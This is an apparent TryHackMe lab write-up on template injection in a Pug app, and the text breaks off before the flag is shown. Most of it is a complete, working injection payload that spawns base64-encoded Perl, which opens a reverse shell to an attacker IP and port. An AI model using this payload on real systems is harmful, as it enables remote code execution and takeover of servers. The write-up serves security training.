



# TryHackMe: Templates

> Pug is my favorite templating engine! I made this super slick application so you can play around with Pug and see how it works.


*[](https://tryhackme.com/room/templates)*

## Recon

I got the following machine IP:


```
export IP=10.10.21.247
```

The assigment text tells us to navigate to `http://$IP:5000`. I decided to run an
NMAP scan too anyway: see `nmap.log`. We're given the following app:



## Template Injection

Triggering a syntax error reveals the path the app is executing on: `usr/src/app`.
This could be useful on its own, say to read sensitive files.



However, inputting the following gains me a complete reverse shell:

```
h1= title
p Welcome to #{3*3}

#{spawn_sync = this.process.binding('spawn_sync')}
#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}}
#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}}
#{payload='dXNlIFNvY2tldDskaT0iMTAuOS45NC45MiI7JHA9OTAwNTtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsK'}
#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
```

Which was inspired by [a gist](https://gist.github.com/Jasemalsadi/2862619f21453e0a6ba2462f9613b49f)
I found using a Google search. The payload itself is base64-encoded perl, and
contains the IP and port to connect to, so had to be changed. 

I used this shell to read the flag:




